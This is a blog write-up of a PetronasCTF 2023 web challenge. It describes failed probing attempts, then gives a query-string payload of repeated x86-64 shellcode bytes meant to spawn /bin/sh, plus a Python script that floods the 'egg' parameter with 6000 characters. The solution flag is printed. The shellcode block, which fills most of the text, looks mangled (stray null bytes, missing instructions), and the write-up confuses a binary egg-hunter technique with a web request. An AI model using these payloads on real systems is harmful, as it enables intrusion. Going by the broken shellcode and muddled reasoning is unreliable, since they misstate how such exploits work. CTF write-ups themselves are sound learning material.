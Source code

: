 ```yaml
---
title: 'PetronasCTF2023 Web Challenge: Henny Peony Got Hit on the Head; with an egg!'
date: 2023-10-11 00:35:22
author: w0rmhol3
categories: Write-Up
tags: Web CTF
cover: https://github.com/w0rmhol3/w0rmhol3-Blog/blob/main/source/_img/PetronasCTF/Challenge6/egg.jpg
---
```

Petronas CTF 2023 is a local CTF organized by Petroliam Nasional Berhad Malaysia. The CTF was held on 9th and 10th October 2023, in Kuala Lumpur Convention Center for 2 days with an elimination round and a top 25 final round. The challenges were quite interesting and majority are great quality challenge. In this web challenge, a featureless website was provided. <!--more-->

![Website](https://github.com/w0rmhol3/w0rmhol3-Blog/blob/main/source/_img/PetronasCTF/Challenge6/Website.png)


As you can see there's literally nothing but a string `You are not near the egg yet`.

![Source](https://github.com/w0rmhol3/w0rmhol3-Blog/blob/main/source/_img/PetronasCTF/Challenge6/Source.png)


I had even try to see if there's anything to be revealed within the source code but there's nothing at all. I had tried to execute command injection within the url by going through different parameters in such as `https://petronasgraduate-quantum.chals.io/?command=(ls)` and had tried going through XSS, SSTI, Header manipulation and other possible exploitation. In the end, the solution found to exploit this website is to run command injection and overflow it. 

Through the challenge a hint stating that `"is it possible to overflow the egg?"` (or similar context). So from the clue, I had found related buffer overflow technique called `Egg Hunter`. From that reference that related to the theme of the challenge. So one of the method I found is to try to overflow it through the URL side by pasting a bunch of payload onto the injection: 

```sh
https://petronasgraduate-quantum.chals.io/?egg=\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x00\x00\x00\x00\x00\x00\x00\x00\xe6\x48\x83\xc0\x3b\x0f\x05
```

^The injection used

![Solution](https://github.com/w0rmhol3/w0rmhol3-Blog/blob/main/source/_img/PetronasCTF/Challenge6/Solution.png)


This solution was not done during the competition and was only found that it works after the competition had ended.

The solution done during the competition was through scripting:

```sh
import requests as request

def overflow(n):
    url = "https://petronasgraduate-quantum.chals.io/?egg={}".format("A"*n)
    r = request.get(url)
    print(r.text)
```

^Script Used

![Solution2](https://github.com/w0rmhol3/w0rmhol3-Blog/blob/main/source/_img/PetronasCTF/Challenge6/Solution2.png)


Then running overflow(6000), I had retrieved the flag by overflowing the system.

Flag: petgrad2023{Quantum_Nexus_0r@c13}
